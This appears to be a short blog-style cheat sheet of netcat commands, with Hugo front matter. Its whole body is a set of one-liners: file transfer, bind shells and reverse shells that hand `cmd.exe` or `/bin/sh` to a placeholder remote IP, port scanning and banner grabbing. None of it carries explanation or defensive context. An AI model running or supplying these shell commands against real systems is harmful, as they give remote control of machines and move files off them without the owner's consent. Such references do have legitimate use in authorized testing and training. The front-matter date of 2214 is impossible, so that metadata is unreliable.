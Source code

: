 +++
title = "NetCat CheatSheet"
description = "NetCat CheatSheet"
tags = [ "NetCat", "NC", "CheatSheet", "Easy" ]
date = "2214-09-04"
location = "127.0.0.1"
categories = ["Ncat","CheatSheet"]
slug = "CheatSheet"
type = "post"
+++


### Transfering a File ###

```
nc -lvp 4444 > output.txt        #Receive
nc -nv <IP Address> < input.txt  #Send
```

### Netcat Bind Shell (Windows) ###

```
nc -lvp 4444 -e cmd.exe
nc -nv <IP Address> 4444 #Connect to the shell
```

### Netcat Bind Shell (Linux) ###

```
nc -lvp 4444 -e /bin/sh
nc -nv <IP Address> 4444           #Connect to the shell
```

### Netcat Reverse Shell (Windows) ###

```
nc -lvp 443  # Listening for connection
nc -nv <IP Address> 443 -e cmd.exe
```

### Netcat Reverse Shell (Linux) ###

```
nc -lvp 443
nc -nv <IP Address> 443 -e /bin/sh
```

### Netcat - Port Scanner ###

```
nc -z <IP Address> <Port Range in abc - xyz format>
```

### Netcat Banner Grabbing ###

```
echo "" | nc -nv -w1 <IP Address> <Ports>
```